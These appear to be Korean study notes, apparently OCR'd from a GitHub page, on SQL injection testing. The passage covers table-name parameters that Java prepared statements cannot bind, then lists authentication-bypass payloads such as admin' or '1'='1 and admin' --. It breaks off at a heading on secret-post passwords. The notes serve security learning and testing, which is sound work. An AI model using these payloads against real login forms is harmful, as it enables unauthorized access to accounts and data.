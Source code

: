   **2) Prepared Statement 환경에서의 테이블 파라미터에 대한 취약점 점검 (JAVA Web 환경)**

   

   a. 127.0.0.1:8080/security/example.jsp?tbname=ex_member 가 있을 경우, 두가지가 존재함

   

    \> select * from tbname
    
     \- 127.0.0.1:8080/security/example.jsp?tbname=all_tables로 바꿔서 보낼 경우, 

  ​    Table Name이 뜨면 100% from 절에 있는 것임. 또한 Oracle 사용중 임을 알 수 있다.

   

    \> select * from board where tbname = '~~' 
     \- prepared statement 는 table name에 적용될 수 없다 . 따라서 select * from ex_member where id = ?

  ​    이런식으로 table name이 아니라 id와 같은 컬럼명에 적용시켜야 함. 
     \- 이럴경우 select * from ex_member (where 1=1 and id = ? --) where id = ? 와 같이 table name에 대하여 sql       injection을 수행 할 수 있음

   

    \> 다른 방법도 있음 (더 쉬움)
     \- select * from ex_member where id = ?
     \- select * from (select * from ex_member where 1=1 또는 1=2) ex_member where id = ? sub 쿼리를 통하여

  ​    한번 더 실행 되도록 하면 값이 같아진다. 

   

  **3) 인증우회 공격**

   a. ID를 알경우 - in-line query, Terminating query

    \> in-line query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (admin' or '1'='1) ' and pw='{$pw}'"

  



    \> Terminating query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (admin' -- ) ' and pw='{$pw}'"
     \- "select * from member where id=' (admin'#) ' and pw='{$pw}'"

   **mysql 주석문자: --, #
   ** --의 경우 [공백]--[공백] 이어야 함

   b. ID를 모를경우 - in-line query, Terminating query

    \> in-line query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (test' or 1=1 or '1'='1) ' and pw='{$pw}'"
    
    \> Terminating query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (test' or '1'='1' -- ) ' and pw='{$pw}'"
     \- "select * from member where id=' (test' or '1'='1'#) ' and pw='{$pw}'"

   c. 비밀글 비밀번호 부분 
